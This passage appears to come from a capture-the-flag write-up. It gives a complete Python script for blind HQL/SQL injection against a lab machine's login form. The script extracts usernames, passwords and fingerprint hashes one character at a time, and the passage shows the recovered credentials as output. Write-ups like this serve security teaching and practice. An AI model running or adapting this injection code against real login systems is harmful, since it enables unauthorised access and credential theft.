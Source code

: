 Here's the final script, though as I showed in the video, it changes a
good bit:



    #!/usr/bin/env python3

    import random
    import requests
    import string


    def get_next_char(obj, known, alpha):
        for c in alpha:
            print(f'\r{known}{c}', end="\x1b[2K")
            resp = requests.post(
                "http://10.10.11.127:8080/login",
                data={
                    "uid": f"0xdf' or {obj} like '{known}{c}%",
                    "auth_primary": "",
                    "auth_secondary": f"{random.getrandbits(128):32x}",
                },
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                #proxies={"http": "http://127.0.0.1:8080"},
            )
            if 'Invalid fingerprint-ID' in resp.text or 'query did not return a unique result' in resp.text:
                resp = requests.post(
                    "http://10.10.11.127:8080/login",
                    data={
                         "uid": f"0xdf' or {obj}='{known}{c}",
                         "auth_primary": "",
                         "auth_secondary": f"{random.getrandbits(128):32x}",
                    },
                    headers={"Content-Type": "application/x-www-form-urlencoded"},
                    #proxies={"http": "http://127.0.0.1:8080"},
                )
                if 'Invalid fingerprint-ID' in resp.text:
                    print(f'\33[2k\r{known}{c:<64}')
                    return
                get_next_char(obj, f'{known}{c}', alpha)


    print("Usernames:")
    get_next_char('username', '', string.ascii_lowercase + string.digits)
    print("\rPasswords:")
    get_next_char('password', '', string.ascii_lowercase + string.digits + '#$&+=<>[]')
    print("\rFingerprints:")
    get_next_char('fingerprint', '', 'abcdef' + string.digits)
    print("\x1b[2K")



I came away with two usernames, two passwords, and two fingerprints:



    oxdf@hacky$ python hqli.py   
    Usernames:                                            
    admin                                                                
    micheal1235
    Passwords:                          
    lwg7gur1emx7unxsjxqz
    o9vb0kb9kuzj1dtxzlv8
    Fingerprints:                                      
    7ef52c251f8044cb187013992891d0e58ce9194de7f535b1b4fa6bbfe08678f6
    99cd639f9e163767115029a31acd97bfa19344b6202ac0b8bdd586e46f436666  
